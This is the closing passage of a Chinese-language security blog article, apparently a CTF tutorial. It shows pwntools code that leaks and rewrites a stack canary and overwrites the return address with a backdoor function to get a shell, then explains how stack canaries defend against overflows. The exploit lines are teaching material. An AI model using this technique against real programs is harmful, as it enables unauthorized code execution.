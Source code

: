 **payload = 'a' * offset_canary #将栈覆盖到 canary 之前**

**payload += (canary.decode("hex"))[::-1] #写入 canary**

**payload += 'b' * (2*4+4） #padding 空 + ebp**

**payload += p32(shell_addr) #用后门函数覆盖 ret**

**p.sendline(payload)**

**p.interactive()**

**运行一下，成功执行了 exploit 函数，从而 getshell。**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

**知识总结：**

**最后总结一下：  
**

**一般攻击者在进行栈溢出攻击时，是通过覆盖函数结束时 ret 的返回值所需的 eip 来进行程序的控制，而 cookie 值在 ret 返回地址 return address 的栈空间上面，因此当攻击者覆盖了 return address 时同时也会覆盖掉 cookie 值，这样在函数结束会检测出 cookie 值发生了改变，导致检测失败，程序中断，避免了程序被攻击者利用。这个 cookie 值即是 canary value。**

**如果使用不当，看似无害的格式函数可能会成为漏洞的主要来源。除 C 之外，许多其他编程语言都有其自己的格式函数，在使用它们输出数据之前，建议检查这些函数用法，并特别注意可能的安全隐患，避免漏洞发生。**

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

**通知！**

**公众号招募文章投稿小伙伴啦！只要你有技术有想法要分享给更多的朋友，就可以参与到我们的投稿计划当中哦~ 感兴趣的朋友公众号首页菜单栏点击【商务合作 - 我要投稿】即可。期待大家的参与~**

**![](https://mmbiz.qpic.cn/mmbiz_jpg/ia3Is12pQKnKRau1qLYtgUZw8e6ENhD9UWdh6lUJoISP3XJ6tiaibXMsibwDn9tac07e0g9X5Q6xEuNUcSqmZtNOYQ/640?wx_fmt=jpeg)**

**记得扫码**

**关注我们**